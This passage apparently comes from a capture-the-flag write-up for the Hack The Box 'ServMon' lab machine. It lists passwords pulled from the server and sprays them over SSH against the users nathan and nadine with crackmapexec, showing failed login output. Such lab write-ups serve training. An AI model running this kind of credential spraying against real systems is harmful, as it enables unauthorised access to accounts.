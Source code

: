 ![](attachments/serv_3.png)

Then it returns password list!

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

I tested these passwords with two known usernames; `nathan`, `nadine`.

```bash
┌──(kali㉿kali)-[~/htb/servmon]
└─$ crackmapexec ssh 10.10.10.184 -u Nathan -p passwords.txt --continue-on-success
SSH         10.10.10.184    22     10.10.10.184     [*] SSH-2.0-OpenSSH_for_Windows_8.0
SSH         10.10.10.184    22     10.10.10.184     [-] Nathan:1nsp3ctTh3Way2Mars! Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nathan:Th3r34r3To0M4nyTrait0r5! Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nathan:B3WithM30r4ga1n5tMe Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nathan:L1k3B1gBut7s@W0rk Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nathan:0nly7h3y0unGWi11F0l10w Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nathan:IfH3s4b0Utg0t0H1sH0me Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nathan:Gr4etN3w5w17hMySk1Pa5$ Authentication failed.

                                                                            
┌──(kali㉿kali)-[~/htb/servmon]
└─$ crackmapexec ssh 10.10.10.184 -u Nadine -p passwords.txt --continue-on-success
SSH         10.10.10.184    22     10.10.10.184     [*] SSH-2.0-OpenSSH_for_Windows_8.0
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:1nsp3ctTh3Way2Mars! Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:Th3r34r3To0M4nyTrait0r5! Authentication failed.
```